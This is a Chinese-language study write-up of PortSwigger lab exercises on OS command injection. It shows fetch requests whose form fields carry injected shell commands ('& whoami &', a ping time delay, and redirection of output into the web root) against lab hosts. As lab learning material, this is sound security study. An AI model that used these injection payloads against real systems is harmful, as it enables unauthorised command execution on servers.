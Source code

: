 ```yaml
---
title: OS command injection
description: OS command injection
last_update:
  date: "2025-08-29T08:00:00+08:00"
---
```


## 前言

這塊感覺是我很弱的一個領域，因為我其實對 OS command 沒有很熟悉

## Lab: OS command injection, simple case

| Dimension | Description                                                                     |
| --------- | ------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/os-command-injection#injecting-os-commands |
| Lab       | https://portswigger.net/web-security/os-command-injection/lab-simple            |

嘗試

```js
fetch(`${location.origin}/product/stock`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `productId=${encodeURIComponent(`1 & echo whoami &`)}&storeId=1`,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

結果

```
sh: 1: 1: not found
/home/peter-xjFXca/stockreport.sh: line 5: $2: unbound variable
```

## Useful Commands

https://portswigger.net/web-security/os-command-injection#useful-commands

## Lab: Blind OS command injection with time delays

| Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/os-command-injection#detecting-blind-os-command-injection-using-time-delays |
| Lab       | https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays                                  |

Submit Feedback 有四個欄位，一一嘗試，最後在 Email 欄位成功注入

```js
fetch(
  "https://0ab5003d0384976783d7877800ec00b5.web-security-academy.net/feedback/submit",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `csrf=Xy0bXtNRAf5VjmXzRbakwTedvYsJXjku&name=123&email=${encodeURIComponent(`& ping -c 10 127.0.0.1 &`)}&subject=123&message=123`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

## Lab: Blind OS command injection with output redirection

| Dimension | Description                                                                                                           |
| --------- | --------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/os-command-injection#exploiting-blind-os-command-injection-by-redirecting-output |
| Lab       | https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection                                |

先嘗試

```js
fetch(`${location.origin}/feedback/submit`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `csrf=02NO2AVme1exgRgZnEWVTK9MruR7ZKmw&name=123&email=${encodeURIComponent(`& whoami > /var/www/images/whoami.txt &`)}&subject=123&message=123`,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

之後訪問 `https://0ac5001b0488aee08068675300bd00b4.web-security-academy.net/image?filename=whoami.txt`

## Lab: Blind OS command injection with out-of-band interaction

| Dimension | Description                                                                                                                       |
| --------- | --------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/os-command-injection#exploiting-blind-os-command-injection-using-out-of-band-oast-techniques |
| Lab       | https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band                                                   |

<!-- todo-yusheng -->

這題需要 Burp Suite Professional，之後再來解～

## Lab: Blind OS command injection with out-of-band data exfiltration

| Dimension | Description                                                                                                                       |
| --------- | --------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/os-command-injection#exploiting-blind-os-command-injection-using-out-of-band-oast-techniques |
| Lab       | https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration                                 |

<!-- todo-yusheng -->

這題需要 Burp Suite Professional，之後再來解～

## Ways of injecting OS commands

https://portswigger.net/web-security/os-command-injection#ways-of-injecting-os-commands

## 小結

Lab 題目超少，一下子就解完，只要跟 out-of-band 相關的題目，就要 Burp Suite Professional 才能解 QQ

## 參考資料

- https://portswigger.net/web-security/os-command-injection
